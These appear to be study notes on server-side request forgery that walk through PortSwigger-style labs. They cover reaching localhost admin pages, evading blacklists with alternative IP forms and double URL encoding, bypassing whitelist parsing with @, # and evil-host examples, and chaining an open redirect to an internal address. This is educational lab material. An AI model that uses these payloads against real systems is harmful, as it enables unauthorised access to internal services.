 ### Localhost as the target url
> Note: The administrative interface might listen on a different port number

Let's say there's an endpoint which accepts the following req.body:
```
stockApi=http://stock.weliketoshop.net:8080/product/stock/check%3FproductId%3D6%26storeId%3D1
```
The result of that request is returned to the client. We can change the req.body to:
```
stockApi=http://localhost/admin
```
which may return us an html for the admin page


### SSRF with blacklist-based input filter
Ways of circumventing blacklists:
- Use an alternative IP representation of 127.0.0.1, such as 2130706433, 017700000001, or 127.1.
- Register your own domain name that resolves to 127.0.0.1. You can use spoofed.burpcollaborator.net for this purpose.
- Obfuscate blocked strings using URL encoding or case variation.
- Provide a URL that you control, which redirects to the target URL. Try using different redirect codes, as well as different protocols for the target URL. For example, switching from an http: to https: URL during the redirect has been shown to bypass some anti-SSRF filters.

#### Lab:
Let's say we're trying to SSRF into http://localhost/admin but the input is blacklisted
We can try to avade the blacklist by double url encoding "a" letter from /admin
And the req.body becomes: stockApi=http://127.1/%25%36%31dmin

### SSRF with whitelist-based input filters
The URL specification contains a number of features that are likely to be overlooked when URLs implement ad-hoc parsing and validation using this method: 

- You can embed credentials in a URL before the hostname, using the `@` character. For example:
```
https://expected-host:fakepassword@evil-host
```

- You can use the `#` character to indicate a URL fragment. For example:
```
https://evil-host#expected-host
```

- You can leverage the DNS naming hierarchy to place required input into a fully-qualified DNS name that you control. For example:
```
https://expected-host.evil-host
```

- You can URL-encode characters to confuse the URL-parsing code. This is particularly useful if the code that implements the filter handles URL-encoded characters differently than the code that performs the back-end HTTP request. You can also try double-encoding characters; some servers recursively URL-decode the input they receive, which can lead to further discrepancies.

- You can use combinations of these techniques together.

#### Lab:
THere's a check stock endpoint with the following req.body:
```
stockApi=http://stock.weliketoshop.net:8080/product/stock/check?productId=2&storeId=1
```
If we change it to:
```
stockApi=http://localhost OR stockApi=http://127.0.0.1
```
We get an err:
```
External stock check host must be `stock.weliketoshop.net`
```
Which indicates that there's a whitelist that contains `stock.weliketoshop.net`

We play around with it and try the following:
```
stockApi=http://random#stock.weliketoshop.net
```
which gives us back the same error:
```
"External stock check host must be stock.weliketoshop.net"
```
which means that it treats random as the url and `stock.weliketoshop.net` as an element on the website

We can try to double-url-encode `#` character and see what we get as a response
```
stockApi=http://localhost%2523stock.weliketoshop.net
```
After double-url encoding it, we get the same err:
```
"External stock check host must be stock.weliketoshop.net"
```
But if we add `@` - we can get a response from `localhost` (which in this case contains a link to `/admin`)
```
stockApi=http://localhost%2523@stock.weliketoshop.net
```

### Open redirection
Let's say the user-submitted URL is strictly validated
But let's also say there are 2 different endpoints:
```
POST /product/stock HTTP/2 
req.body = stockApi=/product/stock/check?productId=1&storeId=1
```
And the second:
```
GET /product/nextProduct?currentProductId=1&path=/product?productId=2 HTTP/2
```

We can try to modify the req.body of the first endpoint to the following:
```
stockApi=/product/nextProduct?currentProductId=1&path=http://192.168.0.12:8080/admin
```
And it will include the contents of /admin in the POST /product/stock response
In other words server will return  302 redirection to whatever is specified in `path` param 

